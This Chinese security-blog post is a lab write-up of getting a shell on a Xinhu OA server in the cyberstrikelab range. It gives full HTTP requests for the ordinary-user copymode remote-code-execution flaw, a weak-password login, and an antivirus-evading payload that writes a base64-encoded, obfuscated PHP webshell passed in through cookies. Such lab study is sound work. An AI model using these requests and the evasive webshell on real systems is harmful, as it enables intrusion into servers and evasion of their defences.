# 记一次打靶时的waf绕过-先知社区

> **来源**: https://xz.aliyun.com/news/19159  
> **文章ID**: 19159

---

最近再打cyberstrikelab 的时候遇到了这么一个靶机，二层是信呼OA。我才用的方法是普通用户进行getshell。

但是奇怪的是，我发现按照网上现有的复现文章去利用，发现不能利用成功。

由于这个靶场环境存在免杀。

这就是本文的重点，如何根据现有的复现手段，去达到免杀绕过的目的。

接下来跟着我的视角去确认如何进行免杀绕过

​

## 入口

这里直接就连接木马即可，通过扫描目录就能发现一个泄露



下载以后成功发现一个php文件



直接蚁剑连接



然后用vshell上线以后，去吧流量先代理出来



socks代理



随即，fscan第二层

得到一个ip 172.55.2.23

随即bp配置访问：



随即访问bp内置浏览器



## 免杀过程

来到第二层其实就已经能发现，这个地方的就是信呼OA普通用户getshell。

首先弱口令登录

```
xiaoqiao/123456
```

任意抓到包以后，我们发现

```
GET /index.php?a=homedata&m=mode_bianjian|input&d=flow&ajaxbool=true&rnd=534575&st1=2025-09-28&st2=2025-11-08 HTTP/1.1
Host: 172.55.2.23
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://172.55.2.23/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: deviceid=1759471271851; xinhu_ca_adminuser=xiaoqiao; xinhu_ca_rempass=0; PHPSESSID=nmrtbdluaj17kqlk0c7dc2erc4; xinhu_mo_adminid=cc0sov0cw0ps0cy0cb0aa0sbs0soo0sso0vo0sow0cy0cs0cf0py011
Connection: close
```

再根据已有的复现过程去复现

```
http://172.55.2.23/index.php?d=main&m=flow&a=copymode&ajaxbool=true

POST:
id=1&name=a{};phpinfo ();class a
```



按照如下去执行

```
http://172.55.2.23/webmain/flow/input/mode_a%7B%7D%3Bphpinfo%20%28%29%3Bclass%20bAction.php
```



没错，确实能够写入shell，当我继续写入一句话木马时却犯了难



提示成功

去访问

```
http://172.55.2.23/webmain/flow/input/mode_a%7b%7d;eval%20(strtoupper(%22eval%20(%5c$_request%5b1%5d);%22));class%20cAction.php?1=echo%20md5(1);
```



却发现404。猜测是杀毒软件直接杀掉了这个文件

​

## 逻辑

这个rce的过程，我们可以简单分析以下。

### 1

它会将文件名的内容，也就是我POST请求体中的内容写入到同名文件中，然后我们可以进行访问，并且会将此文件保存为PHP文件，这就导致我们刚才的phpinfo为什么能成功

​

```
http://172.55.2.23/webmain/flow/input/mode_a%7B%7D%3Bphpinfo%20%28%29%3Bclass%20bAction.php
url解码
http://172.55.2.23/webmain/flow/input/mode_a{};phpinfo ();class bAction.php

```

注意，这个地方就是吧phpInfo()写入到了此文件中mode\_a{};phpinfo ();class bAction.php

但是我们得注意一个效果，就是访问文件得时候，存在一些特殊符号，这个地方需要用url加密以后，才能正常得访问

​

那现在我们的目的很明确，如何写入免杀的PHPwebshell

​

### 2

通过上面的分析我们可以得知，文件名也即是文件内容，那我们可以尝试先用一些函数来进行测试

```
例如：
die()
```

我们传入

```
die(`dir`);
```



接着去构造这样的一个访问路径

```
http://172.55.2.23/webmain/flow/input/mode_a%7B%7D%3Bdie%20%28%60dir%60%29%3Bclass%20cAction.php

```



可以发现，我们的命令其实是成功执行了，并且写入到了文件中，那现在由于目标环境是Windows环境，那我们该如何去进行免杀的写入呢？

​

思路1：

```
POST /index.php?d=main&m=flow&a=copymode&ajaxbool=true HTTP/1.1
Host: 172.55.2.23
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://172.55.2.23/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: deviceid=1759471271851; xinhu_ca_adminuser=xiaoqiao; xinhu_ca_rempass=0; PHPSESSID=nmrtbdluaj17kqlk0c7dc2erc4; xinhu_mo_adminid=cc0sov0cw0ps0cy0cb0aa0sbs0soo0sso0vo0sow0cy0cs0cf0py011
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

id=1&name=a{};die (`dir`);class c   
```

直接在POST的请求体里面写相应的代码，但是明显会存在一个巨大的问题。字数以及特殊符号的问题，当你的代码中存在某些字符。例如/就会导致创建文件时直接把他创建成目录了。如下面所示



所以我们现在，就是需要通过一些函数能够让他利用相关数据里面的内容读取以后进行木马的写入

​

## payload

这里我们先给出我们的payload

```
POST /index.php?d=main&m=flow&a=copymode&ajaxbool=true HTTP/1.1
Host: 172.55.2.23
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://172.55.2.23/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlkhiuddh7qqsu859iphn2eab5; deviceid=1759471271851; xinhu_mo_adminid=ac0erw0erb0eoe0ac0erc0aw0eea0pp0ap0cr0erb0pa0pe0ps0fa09; xinhu_ca_adminuser=xiaoqiao; xinhu_ca_rempass=0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

id=1&name=a{};$v=array_values(get_defined_vars());$c=$v[2];file_put_contents($c[p],base64_decode($c[c]));class d
```

```
GET /webmain/flow/input/mode_a%7B%7D%3B$v=array_values%28get_defined_vars%28%29%29%3B$c=$v%5B2%5D;file_put_contents%28$c%5Bp%5D,base64_decode%28$c%5Bc%5D%29%29%3Bclass%20dAction.php HTTP/1.1
Host: 172.55.2.23
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlkhiuddh7qqsu859iphn2eab5; deviceid=1759471271851; xinhu_ca_adminuser=xiaoqiao; xinhu_ca_rempass=0; xinhu_mo_adminid=fw0xzp0wp0se0wp0xxz0ws0sz0xzx0xzb0wb0xzo0fw0wf0fe0sw07;p=C:\phpStudy\WWW\webmain\flow\input\shell.php; c=PD9waHAgY2xhc3MgIEdzajRDNjYzey8qRjFiMUhJKi9mdW5jdGlvbiBfX2NvbnN0cnVjdCgkeCl7JGM9c3RyX3JvdDEzKCdmZnJlZycpOy8qRjFiMUhJKi8kYT0gKCIhIl4iQCIpLiRjOy8qRjFiMUhJKi8kYSgkeCk7fX1uZXcgIEdzajRDNjYzKCRfUkVRVUVTVFsnMSddKTsgPz4=
Connection: close


```

可以发现：id=1&name=a{};$v=array\_values(get\_defined\_vars());$c=$v[2];file\_put\_contents($c[p],base64\_decode($c[c]));class d

​

我们这里利用相关函数，既不会太长，也没有相关含义不清字符，所以我们就能正常写入，那上面的这段代码是如何能够正常写入任何的shell呢？

get\_defined\_vars() 返回当前作用域的所有变量（包括超全局数组如$\_GET、$\_POST、$\_COOKIE等），形成一个关联数组。

array\_values() 将其转换为索引数组（忽略原键名），便于通过数字索引访问

那我这里就可以把cookie中我自定义的两个变量p,c用来进行传参

​

于是乎

```
Cookie: PHPSESSID=hlkhiuddh7qqsu859iphn2eab5; deviceid=1759471271851; xinhu_ca_adminuser=xiaoqiao; xinhu_ca_rempass=0; xinhu_mo_adminid=fw0xzp0wp0se0wp0xxz0ws0sz0xzx0xzb0wb0xzo0fw0wf0fe0sw07;p=C:\phpStudy\WWW\webmain\flow\input\shell.php; c=PD9waHAgY2xhc3MgIEdzajRDNjYzey8qRjFiMUhJKi9mdW5jdGlvbiBfX2NvbnN0cnVjdCgkeCl7JGM9c3RyX3JvdDEzKCdmZnJlZycpOy8qRjFiMUhJKi8kYT0gKCIhIl4iQCIpLiRjOy8qRjFiMUhJKi8kYSgkeCk7fX1uZXcgIEdzajRDNjYzKCRfUkVRVUVTVFsnMSddKTsgPz4=

```

p=C:\phpStudy\WWW\webmain\flow\input\shell.php

c=PD9waHAgY2xhc3MgIEdzajRDNjYzey8qRjFiMUhJKi9mdW5jdGlvbiBfX2NvbnN0cnVjdCgkeCl7JGM9c3RyX3JvdDEzKCdmZnJlZycpOy8qRjFiMUhJKi8kYT0gKCIhIl4iQCIpLiRjOy8qRjFiMUhJKi8kYSgkeCk7fX1uZXcgIEdzajRDNjYzKCRfUkVRVUVTVFsnMSddKTsgPz4=

​

c的内容就是你免杀webshell的base64编码内容。这样我们就可以很轻松的getshell，绕过其本机上的杀毒软件了

​





成功写入文件，并且连接成功，这里连接的时候只需要注意，需要配置socks代理即可

​

​

## 总结

信呼OA普通用户rce的过程，在网上其实复现还是挺多，只是说免杀的绕过方式还是太少可能没有，这篇文章就刚好利用相关php函数以及此题目漏洞逻辑，导致的waf绕过。具有很强的实战意义。
